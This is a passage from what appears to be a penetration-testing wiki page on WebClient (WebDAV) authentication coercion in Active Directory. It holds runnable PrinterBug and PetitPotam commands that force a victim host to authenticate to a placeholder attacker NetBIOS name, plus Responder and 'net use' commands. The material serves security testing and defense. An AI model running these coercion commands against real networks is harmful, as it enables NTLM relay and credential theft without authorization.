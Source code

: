 
### Abuse

Regular coercion techniques rely on the attacker forcing a remote system to authenticate to another one. The "other" system is usually an IP address, a domain or NetBIOS name. With WebClient abuse, the other system needs to be supplied in a WebDAV Connection String format.

The WebDAV Connection String format is: `\\SERVER@PORT\PATH\TO\DIR`.

> [!TIP]
> To retrieve an authenticated connection, the remote server that attacker wants to victim to be relayed to [should be considered in the intranet zone](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#getting-intranet-zoned). One way to do it is to use the NetBIOS or DNS name of the attacker machine instead of its IP address.
> 
> In order to have a valid NetBIOS name, [Responder](https://github.com/lgandx/Responder) can be used.
> 
> A heftier alternative is to do some [ADIDNS poisoning](adidns-spoofing.md) to create and use a valid DNS entry.

Below are a few examples of WebClient abuse with [PrinterBug](../print-spooler-service/printerbug.md) and [PetitPotam](ms-efsr.md).

```bash
# PrinterBug
dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

# PetitPotam
Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
```

### Start the WebClient service

On a side note, making a remote system start the WebClient service can be done in many ways

::: tabs

=== Map a WebDAV server

By mapping a remote WebDAV server. This can be done by having Responder's server up and by running the `net use` cmdlet.

```shell
# starting responder (in analyze mode to prevent poisoning)
responder --interface "eth0" --analyze
responder -I "eth0" -A

# map the drive from the target WebClient needs to be started on
net use x: http://$RESPONDER_IP/
```
